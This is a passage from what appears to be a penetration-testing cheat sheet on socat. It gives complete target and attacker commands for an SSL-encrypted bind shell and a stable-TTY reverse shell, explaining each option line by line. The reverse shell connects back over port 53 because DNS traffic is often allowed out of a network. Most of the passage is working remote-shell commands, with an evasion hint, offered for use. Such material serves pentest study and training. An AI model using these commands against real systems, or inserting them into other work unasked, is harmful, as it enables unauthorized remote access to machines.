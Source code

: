     - `EXEC:"bash -li"`: Executes an interactive Bash shell.

### 6.3 Bind Shell
- **Target (Linux)**:
  ```bash
  socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0 EXEC:"bash -li"
  ```
  - **Line-by-Line**:
    - `socat`: Invokes Socat.
    - `OPENSSL-LISTEN:4444`: Listens on port 4444 with SSL/TLS.
    - `cert=shell.pem`: Uses the certificate.
    - `verify=0`: Disables verification.
    - `EXEC:"bash -li"`: Binds an interactive Bash shell.
- **Attacker**:
  ```bash
  socat OPENSSL:10.10.10.100:4444,verify=0 -
  ```
  - **Line-by-Line**:
    - `socat`: Invokes Socat.
    - `OPENSSL:10.10.10.100:4444`: Connects to the target’s SSL/TLS listener.
    - `verify=0`: Disables verification.
    - `-`: Uses standard input/output.

### 6.4 Stable TTY Reverse Shell
- **Attacker**:
  ```bash
  socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
  ```
  - **Line-by-Line**:
    - `socat`: Invokes Socat.
    - `OPENSSL-LISTEN:53`: Sets up an SSL/TLS listener on port 53 (DNS, often allowed).
    - `cert=encrypt.pem`: Uses the `encrypt.pem` certificate.
    - `verify=0`: Disables verification.
    - `FILE:`tty`,raw,echo=0`: Connects to the current terminal in raw mode with no echo.
- **Target**:
  ```bash
  socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
  ```
  - **Line-by-Line**:
    - `socat`: Invokes Socat.
    - `OPENSSL:10.10.10.5:53`: Connects to the attacker’s SSL/TLS listener on port 53.
    - `verify=0`: Disables certificate verification.
    - `EXEC:"bash -li"`: Executes an interactive Bash shell.
    - `pty`: Allocates a pseudoterminal.
    - `stderr`: Shows error messages.
    - `sigint`: Handles `Ctrl+C`.
    - `setsid`: Creates a new session.
    - `sane`: Normalizes terminal settings.

---

## 7. Webshells
